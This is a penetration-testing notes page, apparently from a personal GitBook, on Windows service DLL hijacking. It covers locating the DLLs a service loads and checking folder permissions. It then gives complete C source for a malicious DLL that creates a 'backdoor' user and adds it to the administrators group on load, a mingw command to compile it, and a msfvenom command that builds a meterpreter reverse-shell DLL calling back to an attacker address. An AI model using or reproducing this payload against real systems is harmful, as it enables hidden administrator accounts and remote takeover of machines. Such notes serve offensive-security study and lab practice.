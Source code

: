 ```yaml
---
description: DLL Hijacking is a highly effective method.
---
```


# Service DLL Hijacking

## Finding DLL's on running service.

We can use Process Monitor, or any monitoring tool that is on the system to enumerate DLL's on a running service. _**We may have to import our own process monitor binary to system if there is none under permissions we can use!**_

_<mark style="color:red;">**NOTE:**</mark>_ If the DLL list is empty, we should restart the service and view the start up DLLs.

<figure><img src="../../../.gitbook/assets/Screenshot_20231009_180645 (1).png" alt=""><figcaption><p>XFreeRDP - Procmon w/ DLL Name Filter is Empty.</p></figcaption></figure>

### Restarting DLL Service

```
PS> Restart-Service BetaService
```

<figure><img src="../../../.gitbook/assets/Screenshot_20231009_181914.png" alt=""><figcaption><p>Viewing Loaded DLL's after executing Restart-Service</p></figcaption></figure>

## Enumerating Permissions

Once we've enumerated the installed service and found one of interest, we can view the permissions.  We can use tools like: _**icacls**_ Windows utility or the PowerShell Cmdlet _**Get-ACL**_

| MASK | PERMISSIONS             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

##

## Create Malicious DLL

There are many types of malicios DLL's we can execute on our victim. For more information view: Malware Development

#### Adds Administrative User w/ Net Command

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user backdoor password123! /add");
  	    i = system ("net localgroup administrators backdoor /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

#### Compile for Windows x64

**--shared** to specify that we want to build a DLL.

```
x86_64-w64-mingw32-gcc malicous-dll.c --shared -o myDll.dll
```

#### We then transfer the DLL to our victim and save it at the location it's being called from.

<pre><code><strong>PS> $env:path
</strong></code></pre>



### Create malicious DLL MsfVenom

Instead of adding a user, we may want to add a reverse shell instead.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll
```
